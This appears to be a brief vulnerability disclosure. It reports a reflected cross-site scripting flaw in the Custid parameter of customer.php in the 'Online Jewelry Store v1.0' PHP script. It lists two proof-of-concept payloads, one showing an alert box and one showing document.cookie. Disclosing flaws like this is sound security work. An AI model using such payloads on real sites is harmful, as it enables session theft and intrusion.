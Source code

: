 # Online Jewelry Store v1.0 has reflected cross-site scripting vulnerability

BUG_Author: dengbaihao

Website source code address: https://www.sourcecodester.com/php/14631/online-jewelry-store-php-full-source-code.html

Vulnerability File: /jewerly/customer.php

GET Parameter Custid exists reflected cross-site scripting vulnerability

Payload1: Custid=<script>alert(999)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/1.png)

Payload2: Custid=<script>alert(document.cookie)</script>

![image](https://github.com/XIAONIGM/CVEReport/blob/main/1.png)
